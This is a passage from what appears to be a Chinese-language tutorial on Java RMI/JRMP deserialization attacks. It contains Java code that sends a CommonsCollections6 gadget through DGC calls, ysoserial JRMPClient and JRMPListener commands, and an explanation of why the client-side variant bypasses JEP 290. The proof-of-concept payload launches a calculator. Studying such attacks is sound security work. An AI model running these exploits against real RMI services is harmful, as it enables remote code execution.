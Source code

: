 ```java
        int registryPort = 1099;
        final Object payloadObject = new CC6().getPocObject("mate-calc");
        ObjID objID = new ObjID(2);
        RemoteUtils.sendRawCall(registryHost, registryPort,  objID, 0, -669196253586618813L,payloadObject);
    }

    public static void main(String[] args) throws Exception {
        AttackByDGC();
    }
}
```
#### 攻击注册中心（JEP 290 前）
ysoserial 中 JRMPClient 的利用就是基于 DGC 反序列化, 用于攻击服务端(注册中心)：
```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections6 "mate-calc"
```

需要注意的是，JEP290 同样对 DGC 反序列化进行了防护，测试时需要使用低版本jdk（jdk 版本低于 6u141, 7u131,8u121）.

### JRMP 协议异常处理的反序列化
#### 攻击客户端（任意版本 jdk）
RMI 调用建立在 JRMP 协议之上，从源码层次去分析可以发现，RMI 调用的所有过程，例如 DGC 请求、服务端向注册中心注册对象、客户端调用远程方法等，最终都会调用 StreamRemoteCall 类的 executeCall 方法。

该方法部分源代码如下：
```java
    public void executeCall() throws Exception {
        DGCAckHandler var2 = null;
        ...

        switch(var1) {
        case 1:
            return;
        case 2:
            Object var14;
            try {
                var14 = this.in.readObject();
            } catch (Exception var10) {
                throw new UnmarshalException("Error unmarshaling return", var10);
            }
        ...
    }
```
但该方法本身就存在序列化与反序列化机制，可以看到上述的代码中调用了 this.in.readObject, var1 变量实际上代表的是 JRMP 协议中的 returnType 字段，没有报错情况下，returnType 为 1, 错误情况下 returnType 为 2，也就是说出现异常情况下可以触发反序列化。

**这种利用方式主要用于攻击客户端**, 当客户端向恶意服务端发起 RMI 调用时，服务端返回错误信息，触发在客户端的反序列化。ysoserial 中的 JRMPListener 就是这一攻击方式的实现, 这种攻击方式并未受到 JEP 290 的限制.

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections6 'mate-calc'
```
其实现代码可见: [ysoserial/src/main/java/ysoserial/exploit/JRMPListener.java at master · frohoff/ysoserial · GitHub](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java)
